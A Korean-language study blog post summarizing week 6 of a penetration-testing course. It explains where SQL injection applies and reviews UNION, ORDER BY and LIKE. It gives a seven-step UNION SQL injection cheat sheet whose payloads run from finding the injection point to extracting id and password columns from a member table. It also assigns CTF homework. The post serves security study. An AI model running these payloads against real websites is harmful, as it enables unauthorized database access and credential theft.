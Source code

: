 ```yaml
---
layout: post
title:  노말틱 모의해킹 스터디 6주차 강의 정리 
author: leewoojin
date: 2025-05-11 00:00:00 +0900
categories: [Pentest, W6]
tags: []
---
```


##  고민 방식

> 문제 발생 시!

1. 문제의 원인을 찾아라.  
2. 문제를 해결하라.  
3. 구글 검색은 영어 기반!  
   - ❌ google.kr  
   - ✅ google.com



##  SQL 인젝션은 어디에 사용되는가?

- **DB 데이터를 사용하는 곳**
- 그 데이터가 **화면에 출력되는가?**

| 구분 | 예시 |
|------|------|
| 출력됨 | 게시판 |
| 출력 안됨 | 로그인 |

```sql
-- 로그인 예시
SELECT * FROM member WHERE id = 'normaltic' AND pass = '1234'
-- SQLi 예시
' OR '1'='1'
```

##  주요 SQL 요소 정리

### 🔹 UNION
> `select * from board where idx='___'` 에서 SELECT를 한 번 더 건드릴 수 있음.

- 컬럼 수, 출력 위치가 정확히 맞아야 함.
- 짝이 맞지 않으면 **오류 발생**

### 🔹 ORDER BY
> 출력되는 데이터를 정렬할 때 사용

- `ORDER BY [컬럼명]` 또는 `ORDER BY [숫자 인덱스]`
- 인덱스가 컬럼 수보다 크면 오류

### 🔹 LIKE
> 부분 문자열 검색에 사용

```sql
WHERE title LIKE '%___%'
```

- `overwatch`, `over` → overwatch 검색됨  


##  UNION SQL Injection 치트시트

| 단계 | 설명 | 예시 |
|------|------|------|
| 1단계 | Injection 포인트 찾기 | `' OR '1'='1` → 참, `' OR '1'='2` → 거짓 |
| 2단계 | 컬럼 개수 찾기 | `' ORDER BY 1 --`, `' ORDER BY 2 --`, ... |
| 3단계 | 출력 컬럼 위치 확인 | `' UNION SELECT 1,2,3,4 --` |
| 4단계 | DB 이름 확인 | `' UNION SELECT 1,database(),3,4 --` |
| 5단계 | 테이블 이름 확인 | `FROM information_schema.tables WHERE table_schema='db명'` |
| 6단계 | 컬럼 이름 확인 | `FROM information_schema.columns WHERE table_name='member'` |
| 7단계 | 데이터 추출 | `' UNION SELECT 1,id,pass,4 FROM member --` |

> 📌 대부분 검색으로 해결 가능!  
> `mysql select column_name from information_schema.columns where ...` 식으로 찾아보자.


## 📚 과제

- [1] UNION SQL Injection 공부  
- [2] `doldol` 데이터만 출력하기 (하나만 출력되도록 구현)  
- [3] CTF 문제 풀기  
- [+] 웹 개발 (목표: 커뮤니티)  
  - 로그인  
  - 회원가입  
  - 마이페이지 (내 정보 보기)  
  - 게시판  
